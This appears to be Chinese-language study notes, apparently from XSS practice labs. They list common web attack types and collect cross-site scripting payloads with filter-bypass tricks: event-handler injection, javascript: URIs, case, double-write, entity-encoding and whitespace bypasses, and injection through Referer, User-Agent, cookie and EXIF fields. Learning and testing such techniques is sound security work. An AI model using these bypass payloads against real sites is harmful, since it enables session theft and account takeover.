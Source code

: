 常见攻击方式：

1注入攻击

2上传漏洞攻击

3跨站攻击（https://book.2cto.com/201506/52201.html）
跨站攻击最常见的方式是通过窃取cookie或欺骗打开木马网页等，取得重要的资料

4数据库入侵

 


闭合引号   ```value="">"       value="">onmouseover="alert(1)"```


onmouseover="  //当鼠标进入div元素时触发

onmouseenter=alert() //当鼠标进入div元素时触发,在子元素上也会触发(p 和 span)

onclick=alert() //鼠标点击时就会触发

onchange=alert() //在域的内容改变时发生

oninput=alert() //在用户输入时触发

onmouseover=alert()//鼠标移动到就会触发


```
	 <iframe src=javascript:alert('xss')></iframe>```


```<a href=javascript:alert(1)>test</a>```


大小写转换绕过 ```<a Href="javascript:alert('1')">try</a>```

```<a Href="java&#115;cript:alert('1')">try</a>```


php str_replace()   双写绕过  ```<a hhrefref=javasscriptcript:alert(1)>test</a>```

Unicode编码转换  ```javasc&#114;ipt:alert('1')```  (不可转换标签属性)

```javascript:alert(1)/*http://www*/```     加上注释是为了不影响执行
```javascript:alert(1)//http://www*/```     加上注释是为了不影响执行

```keyword=<script>alert(1)</script>&t_sort="onmouseover="alert(1)"type="txt"```

插入 type="txt" 会忽略后面的type="hidden"


$str11=$_SERVER['HTTP_REFERER']
在php中，可以使用$_SERVER[‘HTTP_REFERER’]来获取HTTP_REFERER信息

引导用户代理到当前页的前一页的地址（如果存在）。由 user agent 设置决定。

并不是所有的用户代理都会设置该项，有的还提供了修改HTTP_REFERER 的功能。

简言之，该值并不可信,可用hackbar修改，如图

![](01.PNG)


$str11=$_SERVER['HTTP_USER_AGENT']
$str11=$_COOKIE["user"]

[图虫EXIF查看器alpha版](https://exif.tuchong.com/)   查看exif信息的网站
修改图片的exif信息，上传到相应网站，然后达到执行XSS的效果

```<img src=x onerror=alert(1)>```

ng-include  在 angular.js 包含外部文件

onerror 事件： 会在文档或图像加载过程中发生错误时被触发。

在装载文档或图像的过程中如果发生了错误，就会调用该事件句柄。

支持该事件的 HTML 标签：```<img>, <object>, <style>```

支持该事件的 JavaScript 对象：window, image

空格绕过 ```<img%0a%0dsrc=x%0a%0donerror=alert(1)>```






